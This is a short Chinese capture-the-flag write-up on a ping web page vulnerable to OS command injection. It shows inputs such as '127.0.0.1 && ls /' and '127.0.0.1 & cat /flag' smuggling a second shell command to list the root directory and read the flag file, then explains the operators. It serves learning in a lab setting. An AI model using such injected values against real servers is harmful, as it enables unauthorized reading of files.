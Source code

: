 主要是讲目录这一个。
打开是一个ping界面，怀疑是SQL injection或者xss。
输入`127.0.0.1`得到
```txt
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: seq=0 ttl=42 time=0.120 ms
64 bytes from 127.0.0.1: seq=1 ttl=42 time=0.139 ms
64 bytes from 127.0.0.1: seq=2 ttl=42 time=0.100 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 packets received, 0% packet loss
round-trip min/avg/max = 0.100/0.119/0.139 ms

```

疑惑中带有不解。差点把那个min/avg/max当目录名去了。
### 第一步
```
127.0.0.1 && ls /
```
得到响应


```

...
round-trip min/avg/max = 0.104/0.151/0.220 ms
bin
dev
etc
flag
home
lib
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

### 第二步

```
127.0.0.1 & cat /flag
```
得到
```
flag{ee79ce5d-c618-4380-b2d9-9443537c23aa}
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: seq=0 ttl=42 time=0.144 ms
64 bytes from 127.0.0.1: seq=1 ttl=42 time=0.116 ms
64 bytes from 127.0.0.1: seq=2 ttl=42 time=0.100 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 packets received, 0% packet loss
round-trip min/avg/max = 0.100/0.120/0.144 ms
```

-----

not so hard but it depends on what you know

- ls 显示文件和目录列表
- cat 顺序显示文本文件内容
- dir 显示文件和目录列表，但不带颜色识别

当连接到一个 Web 服务器时，浏览器将通过该服务器提供的文件来访问页面和资源。根目录会根据 Web 服务器的配置而不同。

Web 服务器通常有一个根目录（也称为文档根目录或网站根目录），它是服务器上存储网页和资源的主要目录。当浏览器请求一个页面或资源时，Web 服务器会根据请求的 URL 和配置的规则来确定从哪个位置提供文件。

例如，如果配置的根目录是 `/var/www/html`，那么当浏览器请求 `http://example.com/index.html`时，Web 服务器会在 `/var/www/html` 目录中查找 `index.html` 文件，并将其发送给浏览器作为响应。

因此，当连接到 Web 服务器时，访问的根目录将是由服务器配置决定的，它会从指定的根目录中提供文件和资源。


||作用|
|---|---|
|`&`|个控制操作符，用于在后台同时运行多个命令。它使得第一个命令在后台运行时，可以立即开始执行第二个命令。|
|`&&`|一个逻辑运算符，表示只有在前一个命令执行成功后才会继续执行后面的命令。如果第一个命令执行失败，则第二个命令不会被执行。|
|`ls /`|这个命令将列出根目录下的所有文件和目录。在 Linux 或 Unix 操作系统中，`ls`命令用于列出指定目录中的文件和子目录的名称。`/` 表示根目录，这里的命令将在根目录下执行 `ls`命令，并显示所有文件和目录的名称。
|
|`cat /flag`|显示指定文件的内容，并将其输出到终端上。这里指定文件是`flag`|